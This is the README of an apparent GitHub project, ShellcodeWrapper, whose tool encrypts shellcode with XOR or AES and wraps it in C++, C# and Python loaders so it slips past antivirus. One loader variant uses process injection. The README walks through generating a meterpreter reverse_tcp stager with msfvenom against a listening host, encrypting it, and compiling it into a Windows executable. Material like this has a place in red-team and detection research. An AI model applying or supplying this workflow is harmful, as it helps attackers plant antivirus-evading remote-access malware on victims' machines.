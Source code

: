 Mutlibyte XOR or AES encrypted shellcode
============

- Updated by @andrewchiles to remove hardcoded output paths and add additional code templates

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

These little proof of concept are inspired by this blogpost: [Bypass antivirus with 10 lines of code](http://www.attactics.org/2016/03/bypassing-antivirus-with-10-lines-of.html)

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C# and Python:
	- `encryptedShellcodeWrapper.cpp` - for now supports **only** XOR encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and AES encryption
	- `encryptedShellcodeWrapper_inject.cs` - same as above with process injection
	- `encryptedShellcodeWrapper.py` - supports both XOR and AES encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/ShellcodeWrapper ShellcodeWrapper`
* cd into the ShellcodeWrapper folder: `cd ShellcodeWrapper`
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), for example:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

In this example, the output is a raw (*unencoded & unencrypted*) reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (*payload and parameters*).

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `aes`
  - desired output: `base64`, `cpp`, `csharp`, `python`

For instance, to xor encrypt the shellcode with the key '*thisismykey*' and get an output code file in C#, C++ and Python:
```
root@kali:~# ./shellcode_encoder.py -cpp -cs -py shellcode.raw thisismykey xor
```
This will generate C#, C++ and Python code file in the `result` folder. Those files are ready to use/compile.

Eventually:

1. For the C++ wrapper, compile the C++ code file into a Windows executable: you can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).
2. For the C# wrapper, compile the C# code file into a Windows executable:
	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs`
3. For the Python wrapper, just run it as a python script, or use PyInstaller to make it a Windows standalone executable
